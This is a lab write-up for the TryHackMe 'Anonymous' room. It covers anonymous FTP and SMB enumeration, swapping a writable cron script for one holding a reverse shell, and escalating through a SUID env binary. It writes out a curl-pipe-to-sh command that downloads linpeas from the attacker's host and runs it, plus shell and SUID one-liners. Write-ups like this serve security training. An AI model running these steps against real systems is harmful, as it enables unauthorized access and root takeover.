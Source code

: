 # This is a Writeup for the Room Anonymous on http://tryhackme.com 

### Enumeration

First we use nmap to see which ports are open and which services are running on them.

[![https://imgur.com/3KHpnMu.png](https://imgur.com/3KHpnMu.png)](https://imgur.com/3KHpnMu.png)

The first thing that catches our eye is the possibility to log into FTP anonymously which also hints to the room name so lets try that.

[![https://imgur.com/NSv0ZJ1.png](https://imgur.com/NSv0ZJ1.png)](https://imgur.com/NSv0ZJ1.png)

Lets discover which files we can find on the ftp server:

[![https://imgur.com/IyxL5jx.png](https://imgur.com/IyxL5jx.png)](https://imgur.com/IyxL5jx.png)

and use the get command to download the files.

The only interesting file we found is this bash script:

![Imgur](https://i.imgur.com/FS6sPPw.png) 

i am sure we can exploit it but lets first explore other options, we will find out later on.

Lets try to enumerate the SMB shares on Port 139 and 445

For this we can use the tool Enum4Linux which is pretty handy.

The usage is straight forward: 
enum4linux targetIP

We found a SMB share called pics.

![Imgur](https://i.imgur.com/ayu97kS.png)

Lets try to loginto that with the smbclient.

You can do that with the command:
smbclient \\\\targetip\\share -u anonymous
and no password.
There are only 2 pictures on the smbshare so we go back and explore the bash script in more detail.

It looks like a cronjob, so lets try if we can not only download but also upload files to ftp?

It works! 

So our next step are the following:
Download the clean.sh script, 

hide a command for a reverseshell inside (make sure to change the ip and the port)
(Place to find a reverseshell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[![https://imgur.com/MYn1gRG.png](https://imgur.com/MYn1gRG.png)](https://imgur.com/MYn1gRG.png)

and replace the one on the ftp server with ours.

[![https://imgur.com/od1He2e.png](https://imgur.com/od1He2e.png)](https://imgur.com/od1He2e.png)

Now we only need to setup a nc listener and wait a bit, we are in!

[![https://imgur.com/cr43x7b.png](https://imgur.com/cr43x7b.png)](https://imgur.com/cr43x7b.png)

First lets get a better shell and then escalate our privileges!

We can use python for that: python -c 'import pty; pty.spawn("/bin/bash")'

### Privilege Escalation

Lets make our life easier by setting up a http server on my host machine and curl linpeas.sh on the target.

[![https://imgur.com/32WBOx6.png](https://imgur.com/32WBOx6.png)](https://imgur.com/32WBOx6.png)

With the command:

curl http://your_ip:8000/linpeas.sh | sh you can get linpeas.sh and execute it.

(Of course you need to download it first on your hostmachie https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

We find that /usr/bin/env has the SUID binary bit set so we can check that on GTFOBINs (https://gtfobins.github.io/)

[![https://imgur.com/QhNXV9u.png](https://imgur.com/QhNXV9u.png)](https://imgur.com/QhNXV9u.png)

[![https://imgur.com/LwpJgWs.png](https://imgur.com/LwpJgWs.png)](https://imgur.com/LwpJgWs.png)

Now we can abuse it to escalate.

[![https://imgur.com/RinrpKl.png](https://imgur.com/RinrpKl.png)](https://imgur.com/RinrpKl.png)

In hindsight linpeas was maybe a bit overkill we could have also checked for SUID's manually with:

find / -perm /4000 -type f 2>/dev/null

Thank you for reading :)
